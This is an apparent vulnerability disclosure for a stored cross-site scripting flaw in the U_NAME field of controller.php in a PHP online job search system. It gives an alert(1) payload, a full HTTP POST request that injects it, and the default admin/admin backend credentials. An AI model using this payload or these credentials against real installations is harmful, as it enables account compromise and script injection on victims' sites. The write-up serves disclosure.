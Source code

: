 # Complete Online Job Search System v1.0 by campcodes.com has Cross-site Scripting (XSS)

**Vul_Author**: **Liyu Chen**

The password for the backend login account is: admin/admin

vendors: https://www.campcodes.com/projects/php/online-job-search-system-using-php-mysql-free-download/

Vulnerability File: /eris/admin/user/controller.php

Vulnerability location: /eris/admin/user/controller.php?action=edit, U_NAME

[+] Payload: <script>alert(1)</script>

Tested on Windows 10, phpStudy

There is an example with alert: 

```sql
POST /eris/admin/user/controller.php?action=edit HTTP/1.1
Host: 10.10.10.134
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 142
Origin: http://10.10.10.134
DNT: 1
Connection: close
Referer: http://10.10.10.134/eris/admin/user/index.php?view=edit&id=2018001
Cookie: PHPSESSID=vf7g6ffd2s4el0u0gia3elgg14
Upgrade-Insecure-Requests: 1

USERID=2018001&deptid=&U_NAME=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&deptid=&U_USERNAME=Narciso&deptid=&U_PASS=123&U_ROLE=Administrator&save=
```

![](E:\HK\study\CVE\0702\xss.gif)